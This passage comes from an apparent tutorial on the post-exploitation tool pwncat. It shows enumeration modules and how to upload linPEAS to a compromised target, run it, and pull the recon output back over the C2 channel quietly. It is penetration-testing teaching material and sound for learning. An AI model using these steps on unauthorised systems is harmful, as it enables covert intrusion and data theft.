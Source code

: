 When you are bored with `CTRL+D`, make sure you are back in local-mode so we can run our first command.

Chances are, the target will be unknown to you. So doing some enumeration/recon may be a good thing. Let's do that by running the `enumerate.gather` module:

```bash
(local) pwncat$ run enumerate.gather
``` 

If you were keen, you might have noticed that pwncat supports tab-completion. You can use this to cycle through modules and arguments as required. You might have even noticed there are tons of things you can enumerate. `Gather` is basically doing all those things for you.

But maybe you don't want to gather everything, and have a specific thing you want to enumerate. pwncat has you covered.

As an example, maybe you just want to quickly find all files with SUID bit set. You can do that using:
```bash
(local) pwncat$ run enumerate.file.suid
```

So go ahead and try a few different modules. Type `run enumerate.` and hit tab to bring up a drop down list you can select from and try a few out. I'd suggest something like `enumerate.system.processes` or `enumerate.system.network` as a few options to try.

Alright. So we can enumerate like the best of them. But what if we need more? Well, maybe we should upload [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) or something. pwncat has an AWESOME file transfer capability so you don't have to host web servers or smb shares to transfer bits to your targets. 

Let' try to use it.

## File transfer using pwncat

OK, so lets get linpeas on the target. I assume you already downloaded it to your host and put it somewhere easy to remember. Maybe something like `/opt/tools/linpeas.sh`.

If you haven't downloaded it, from a different console window try `curl -sL https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -O`

Alright, so lets use pwncat to put linpeas on the target:
1. Make sure you are in local-mode
2. Run the following command: `upload /opt/tools/linpeas.sh /tmp/linpeas.sh`. Remember you can use tab-completion to find your paths/files if you can't remember them off the top of your head.
3. After the upload completes, switch to remote-mode by hitting `CTRL+D`.
4. Add execute perms on the script: `chmod +x /tmp/linpeas.sh`
5. Run linpeas using the following command: `/tmp/linpeas.sh -s > /tmp/recon.txt`
6. Switch back to local-mode with `CTRL+D`
7. Download the recon output using `download /tmp/recon.txt`
8. From another console, type: `less -r recon.txt`. You can scroll through to see tons more recon data.

See how easy it is to upload and download files from the target? Now here is the cool part. The way it does it is by leveraging GTFOBins to find write primatives on the target. So even in constrained environments, there is a good chance you will be able to move files in and out of the target. And it does all this over that same C2 channel; no need for seperate connections that may arouse suspicion.
